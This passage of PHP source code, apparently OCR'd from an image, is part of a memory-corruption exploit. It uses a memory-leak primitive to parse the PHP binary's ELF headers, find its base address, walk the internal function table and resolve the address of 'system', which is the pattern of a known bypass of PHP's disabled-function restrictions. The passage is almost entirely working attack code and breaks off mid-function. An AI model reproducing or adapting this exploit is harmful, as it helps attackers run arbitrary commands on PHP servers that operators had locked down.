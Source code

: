 ```php
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
```